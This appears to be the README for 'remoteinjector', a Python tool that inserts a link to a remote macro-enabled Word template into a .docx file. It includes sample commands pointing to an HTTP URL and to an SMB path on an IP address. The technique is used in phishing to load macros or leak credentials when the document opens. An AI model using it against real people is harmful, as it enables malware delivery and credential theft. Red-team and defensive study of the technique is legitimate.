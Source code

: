 # remoteinjector
Injects link to remote word template into word document
## Requirements
- Python2.7
## Usage
'''
usage: remoteinjector.py [-h] [-w URL] F

Inject Template Through Relationship Settings

positional arguments:
  F           .docx file to inject template into

optional arguments:
  -h, --help  show this help message and exit
  -w URL      remote http url to template

Example of use
To inject remote http url:

        remoteinjector.py -w https://example.com/template.dotm example.docx

To inject SMB path:

        remoteinjector.py -w \\1.1.1.1\C$\TEMP\template.dotm example.docx
'''
